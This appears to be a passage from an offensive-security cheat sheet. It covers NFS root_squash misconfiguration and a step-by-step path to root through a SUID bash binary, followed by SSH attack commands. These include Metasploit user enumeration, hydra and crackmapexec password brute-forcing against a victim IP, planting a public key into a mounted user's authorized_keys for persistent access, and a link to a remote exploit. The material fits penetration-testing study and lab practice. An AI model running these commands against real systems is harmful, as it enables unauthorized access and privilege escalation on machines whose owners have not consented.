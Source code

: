 - What is root_squash
By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.

- Exploit NFS pathway
1)  NFS Access
2)  Gain Low Privilege Shell
3)  Upload Bash Executable to the NFS share
4)  Set SUID permissions Through NFS Due To Misconfigured Root Squash
5)  Login through SSH
6)  Execute SUID Bit Bash Executable
7)  ROOT


--------------------------------------------------------------------------------------------------------------------------------------

# SSH 

--------------------------------------------------------------------------------------------------------------------------------

#### SSH enumeration with metasploit module
```
use auxiliary/scanner/ssh/ssh_enumusers
set user_file /usr/share/wordlists/metasploit/unix_users.txt or set user_file /usr/share/seclists/Usernames/Names/names.txt
run
```

#### SSH data bruteforce with hydra
```
hydra -v -V -l [user-name] -P password-file.txt [victim_ip] ssh
hydra -v -V -L users-file.txt -P password-file.txt -t 16 [victim_ip] ssh
```

#### SSH data bruteforce with crackmapexec
```
crackmapexec ssh [victim_ip] -u [user_name] -p password-file.txt
```

#### ssh keygen process
```
ssh-keygen
mkdir /mnt/user_name/.ssh
touch /mnt/user_name/.ssh/authorized_keys
cat ~/.ssh/id_rsa.pub > /mnt/user_name/.ssh/authorized_keys
ssh use_name@[victim_ip]
```

#### usefull ssh exploits
- https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/remote/40136.py
